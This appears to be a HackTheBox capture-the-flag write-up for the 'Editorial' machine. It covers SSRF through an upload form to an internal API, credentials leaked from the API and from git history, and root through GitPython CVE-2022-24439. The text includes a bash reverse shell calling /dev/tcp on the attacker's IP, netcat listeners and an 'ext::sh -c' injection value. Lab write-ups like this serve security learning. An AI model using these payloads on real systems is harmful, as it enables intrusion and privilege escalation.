 
Running `nmap` on the victim's ip shows two open ports, `80` and `22`.

Visiting the ip, I am redirected to the domain `editorial.htb`, which I add to the hosts file.

```
echo "10.10.11.20  editorial.htb" | sudo tee -a /etc/hosts
```

In the directory `/uploads`, there is a form with the input form called `cover url`. If I run `nc -lnvp 5555`, and input `http://10.10.14.207:5555` in the url, and click `preview`, the listener got the ping.

```
nc -lnvp 5555

listening on [any] 5555 ...
connect to [10.10.14.41] from (UNKNOWN) [10.10.11.20] 59540
GET / HTTP/1.1
Host: 10.10.14.41:5555
User-Agent: python-requests/2.25.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```

#### Foothold

In the url form, I can send a request to `http://127.0.0.1:80`, this returns a `jpeg` file. 

Using Burp Intruder and the wordlist `/usr/share/seclists/Discovery/Infrastructure/common-http-ports.txt`, I can run a brute force search to see the output of these ports. Each port other than port `5000` outputs a `jpeg` file.

In the form on the `editorial.htb/upload` I input `http://127.0.0.1:5555` and click preview, a broken image comes up and I download it. I check the image at the command line:

```
file 994d3f3a-23e7-4892-9bfc-01fac9bbd3b9
994d3f3a-23e7-4892-9bfc-01fac9bbd3b9: JSON text data
```

I use `cat` on the json file and find an interesting endpoint, `"endpoint": "/api/latest/metadata/messages/authors",` and plug that into my form. After downloading that json file, there is a template email with the following login credentials: `dev:dev080217_devAPI!@`.

I use `ssh` to login to the box, `ssh dev@victim_ip`, and find the user flag in `/home/dev/user.txt`.

#### Lateral Movement

After getting the user flag, I enumerate the box and find a hidden `.git` file. This tells me that updates and changes made to the web app would be stored here.

I run `git log` to view the commit history and I notice the commit `change(api): downgrading prod to dev`, which looks interesting. I run `git showb73481bb823d2dfb49c44f4c1e6a7e11912ed8ae`, which is the git hash, and there is a template email with production credentials seen below: 

`prod:080217_Producti0n_2023!@`

Running `su prod`, I enter the password and get access to the prod user.

As the prod user I run `sudo -l` to see if prod has root rights to run any files and get the following output:

```
prod@editorial:/home/dev$ sudo -l
[sudo] password for prod: 
Matching Defaults entries for prod on editorial:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User prod may run the following commands on editorial:
    (root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *
```

I then cat the file to see what it does:

```
prod@editorial:/home/dev$ cat /opt/internal_apps/clone_changes/clone_prod_change.py
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
```

The file is using the library `gitpython`, to see what version I run `pip freeze` and see `gitpython` is running version `GitPython==3.1.29`. After doing a google search I see there is a vulnerability CVE-2022-24439 with this library's version.

This CVE highlights that the issue is caused by inadequate validation of user input when handling remote URLs passed to the clone command. We can exploit this vulnerability to gain a shell with root privileges. To do this, we first create a script to obtain a reverse shell.

```
prod@editorial:/home/dev/apps$ echo "bash -i >& /dev/tcp/10.10.14.41/4444 0>&1" >
/tmp/shell.sh
```

Then locally I create a netcat listener:

```
nc -lnvp 4444
```

Then I run my script with `sudo python3`

```
prod@editorial:/home/dev/apps$ sudo /usr/bin/python3
/opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c bash% /tmp/shell.sh'
```

And my local listener gets a root shell. I can find the root flag on `/root/root.txt`.





